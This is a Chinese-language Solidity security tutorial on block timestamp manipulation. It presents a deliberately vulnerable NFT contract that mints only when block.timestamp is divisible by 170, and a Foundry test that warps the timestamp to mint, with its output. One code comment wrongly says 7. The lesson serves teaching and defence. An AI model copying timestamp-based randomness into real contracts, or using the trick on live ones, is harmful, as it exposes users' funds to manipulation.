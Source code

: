 # 14. 操纵区块时间

介绍智能合约的操纵区块时间攻击，并使用 Foundry 复现。在合并（The Merge）之前，以太坊矿工可以操纵区块时间，如果抽奖合约的伪随机数依赖于区块时间，则可能被攻击。

## 区块时间

区块时间（block timestamp）是包含在以太坊区块头中的一个 `uint64` 值，代表此区块创建的 UTC 时间戳（单位：秒），在合并（The Merge）之前，以太坊会根据算力调整区块难度，因此出块时间不定，平均 14.5s 出一个区块，矿工可以操纵区块时间；合并之后，改为固定 12s 一个区块，验证节点不能操纵区块时间。

在 Solidity 中，开发者可以通过全局变量 `block.timestamp` 获取当前区块的时间戳，类型为 `uint256`。

## 漏洞例子

此例子由[坏随机数](./07.md)中的合约改写而成。我们改变了 `mint()` 铸造函数的条件：当区块时间能被 170 整除时才能成功铸造：

```js
contract TimeManipulation is ERC721 {
    uint256 totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("", ""){}

    // 铸造函数：当区块时间能被7整除时才能mint成功
    function luckyMint() external returns(bool success){
        if(block.timestamp % 170 == 0){
            _mint(msg.sender, totalSupply); // mint
            totalSupply++;
            success = true;
        }else{
            success = false;
        }
    }
}
```

## Foundry复现攻击

攻击者只需操纵区块时间，将它设为能被 170 整除的数字，就可以成功铸造 NFT。我们选择 Foundry 来复现这个攻击，因为它提供了修改区块时间的作弊码（cheatcodes）。如果你不了解 Foundry/作弊码，可以阅读 [Foundry Book](https://book.getfoundry.sh/forge/cheatcodes)。

代码大致逻辑

1. 创建一个 `TimeManipulation` 合约变量 `nft`。
2. 创建一个钱包地址 `alice`。
3. 使用作弊码 `vm.warp()` 将区块时间改为 169，由于不能被170整除，铸造失败。
4. 使用作弊码 `vm.warp()` 将区块时间改为 17000，由于可以被170整除，铸造成功。

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.21;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/TimeManipulation.sol";

contract TimeManipulationTest is Test {
    TimeManipulation public nft;

    // Computes address for a given private key
    address alice = vm.addr(1);

    function setUp() public {
        nft = new TimeManipulation();
    }

    // forge test -vv --match-test  testMint
    function testMint() public {
        console.log("Condition 1: block.timestamp % 170 != 0");
        // Set block.timestamp to 169
        vm.warp(169);
        console.log("block.timestamp: %s", block.timestamp);
        // Sets all subsequent calls' msg.sender to be the input address
        // until `stopPrank` is called
        vm.startPrank(alice);
        console.log("alice balance before mint: %s", nft.balanceOf(alice));
        nft.luckyMint();
        console.log("alice balance after mint: %s", nft.balanceOf(alice));

        // Set block.timestamp to 17000
        console.log("Condition 2: block.timestamp % 170 == 0");
        vm.warp(17000);
        console.log("block.timestamp: %s", block.timestamp);
        console.log("alice balance before mint: %s", nft.balanceOf(alice));
        nft.luckyMint();
        console.log("alice balance after mint: %s", nft.balanceOf(alice));
        vm.stopPrank();
    }
}

```

在安装好 Foundry 之后，在命令行输入下列命令启动新项目，并安装 openzeppelin 库：

```shell
forge init TimeManipulation
cd TimeManipulation
forge install Openzeppelin/openzeppelin-contracts
```

将这一讲的代码分别复制到src和test目录下，然后使用下列命令启动测试用例：

```shell
forge test -vv --match-test testMint
```

输出如下：

```shell
Running 1 test for test/TimeManipulation.t.sol:TimeManipulationTest
[PASS] testMint() (gas: 94666)
Logs:
  Condition 1: block.timestamp % 170 != 0
  block.timestamp: 169
  alice balance before mint: 0
  alice balance after mint: 0
  Condition 2: block.timestamp % 170 == 0
  block.timestamp: 17000
  alice balance before mint: 0
  alice balance after mint: 1

Test result: ok. 1 passed; 0 failed; finished in 7.64ms
```

我们可以看到，当我们将block.timestamp 修改为 17000时，铸造成功。
